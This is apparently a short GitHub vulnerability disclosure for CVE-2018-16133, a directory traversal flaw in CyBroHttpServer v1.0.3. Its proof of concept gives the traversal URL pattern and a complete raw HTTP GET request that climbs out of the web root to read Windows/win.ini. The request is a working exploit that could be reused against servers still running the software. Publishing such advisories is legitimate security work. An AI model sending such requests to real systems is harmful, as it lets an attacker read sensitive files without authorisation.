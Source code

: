 # CyBroHttpServer-v1.0.3-Directory-Traversal
Directory Traversal in CyBroHttpServer v1.0.3 allows an attacker to read sensitive informations.

# CVE-2018-16133
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-16133

# PoC
To exploit vulnerability, someone could use 'http://[host]/../../../../../../../../' request to get some informations from the target. 
  For example: http://[host]/../../../../../../../../Windows/win.ini'


```
GET /../../../../Windows/win.ini HTTP/1.1
Host: 192.168.43.102:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

![alt tag](https://www.emreovunc.com/blog/en/CyBroHttpServer-v.1.0.3-Directory-Traversal-1.png)

![alt tag](https://www.emreovunc.com/blog/en/CyBroHttpServer-v.1.0.3-Directory-Traversal-2.png)
